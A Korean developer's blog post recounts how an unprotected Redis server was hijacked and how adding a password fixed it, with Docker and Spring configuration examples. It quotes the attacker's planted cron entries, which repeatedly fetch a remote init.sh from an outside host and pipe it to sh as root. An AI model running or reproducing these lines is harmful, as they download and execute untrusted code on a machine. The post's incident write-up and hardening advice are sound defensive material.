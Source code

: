 <p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/1ab5e216-20ad-43cc-92f4-183e13d10b42/image.png" /></p>
<p>분명히 로컬에서 Test 했을 때는 정상적으로 동작했고, 배포 된 서버에 요청을 보냈을 때 Redis에 원하는 값이 저장되는 것을 확인했다.
그런데.. 몇 시간뒤나 다음날 다시 테스트하려고 하면 자꾸 캐싱해둔 내용이 사라져있다...
초면인 backup1 ~ backup4가 있다...
혹시 redis 비밀번호를 따로 설정하지 않았다면</p>
<blockquote>
<p>누군가 내 작고 소중한 Redis를 몰래 쓰고있다.</p>
</blockquote>
<p>이전에 부스트캠프 프로젝트를 하면서 다른 조에서 해킹을 당했었다는 내용을 공유받은 적이 있었는데, 그 당시에는 Redis 사용을 고려하지 않았고 우리 프로젝트는 github star도 많지 않으니 해킹을 당하겠어? 라는 아주 안일한 생각을 하고 있었다.</p>
<p>처음에는 TTL설정 문제인줄 알고 Redis default TTL을 계속 찾아봤다.
하지만 관련 문제는 아니였다.</p>
<p>다음에 했던 것이 Redis에 어떤 command가 날라왔는지 조사를 했는데, 엄청 많은 요청이 계속 들어오고 있었다.</p>
<pre><code class="language-shell">&gt; redis-cli
&gt; monitor</code></pre>
<img height="50%" src="https://velog.velcdn.com/images/kny8092/post/309d8b55-3815-4705-8cc0-60001ba94c5f/image.png" />


<p>그제서야 전에 해킹관련 이야기를 들었던 것이 생각이 났고, 찾아보기 시작했다.
(이후에 알았지만 저 명령들은 내 Redis Explorer에서 요청보낸 것..)</p>
<h3 id="누구세요">누구세요</h3>
<p>backup에 적힌 내용을 가만히 살펴보니 다음과 같았다.</p>
<pre><code class="language-shell">*/2 * * * * root cd1 -fsSL http://en2an.top/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://en2an.top/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://45.83.123.29/cleanfda/init.sh | sh</code></pre>
<p>주기적으로 스크립트를 다운받아 실행 시키고 있었다.</p>
<p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/cc49ce32-5227-4e5a-a356-a76687adc4e9/image.png" /></p>
<p>ip를 찾아봤을 때 우리나라는 아니였다.. 저 sh을 받아보고 싶었지만, 무슨 위험이 있을지 몰라서 빤히 쳐다보는 일 밖에 할 수 없다...;;</p>
<h3 id="외양간-고치기">외양간 고치기</h3>
<p>비밀번호는 다음 명령으로 설정 가능하다.</p>
<pre><code class="language-shell"># docker container 실행 시 설정
$ docker run --name redis -p 6379:6379 -d redis --requirepass {password}

# docker 내부 접속하여 redis cli 명령을 사용하고 싶을 때
$ docker exec -it redis redis-cli -a {password}</code></pre>
<pre><code class="language-java">
@Configuration
public class RedisConfig {

    @Value("${spring.redis.host}")
    private String host;

    @Value("${spring.redis.port}")
    private Integer port;

    @Value("${spring.redis.password}")
    private String password; # 비밀번호 설정 추가

    @Bean
    public RedisConnectionFactory redisConnectionFactory() {
        RedisStandaloneConfiguration redisStandaloneConfiguration = new RedisStandaloneConfiguration();
        redisStandaloneConfiguration.setHostName(host);
        redisStandaloneConfiguration.setPort(port);
        redisStandaloneConfiguration.setPassword(password);
        LettuceConnectionFactory lettuceConnectionFactory = new LettuceConnectionFactory(redisStandaloneConfiguration);
        return lettuceConnectionFactory;
    }
}
</code></pre>
<h3 id="교훈">교훈</h3>
<p>서버 환경에 배포 시에는 password 설정과 port 허용에 신경쓰자!</p>
<hr />
<p>참고
<a href="https://gofnrk.tistory.com/84">https://gofnrk.tistory.com/84</a>
<a href="http://redisgate.kr/redis/education/redis_hacking.php">http://redisgate.kr/redis/education/redis_hacking.php</a></p>